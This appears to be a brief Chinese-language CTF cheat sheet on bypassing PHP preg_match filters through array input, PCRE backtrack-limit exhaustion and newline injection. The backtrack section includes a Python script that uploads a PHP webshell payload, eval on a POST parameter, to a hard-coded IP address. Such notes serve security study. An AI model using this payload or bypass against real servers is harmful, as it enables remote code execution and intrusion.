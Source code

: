 #  preg_match绕过

1. 数组绕过

   ​	preg_match只能处理字符串，传入数组时会返回false

2. PCRE回溯次数限制

     ```python
     import requests
     from io import BytesIO
     
     files = {
       'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
     }
     
     res = requests.post('http://51.158.75.42:8088/index.php', files=files, allow_redirects=False)
     print(res.headers)
     
     ```

   脚本，`pcre.backtrack_limit`给pcre设定了一个回溯次数上限，默认为1000000，如果回溯次数超过这个数字，preg_match会返回false。

3. 换行符绕过（preg_match默认单行模式）

    	 `.` 不会匹配换行符，可以使用换行符绕过：`\n` (`%0A`)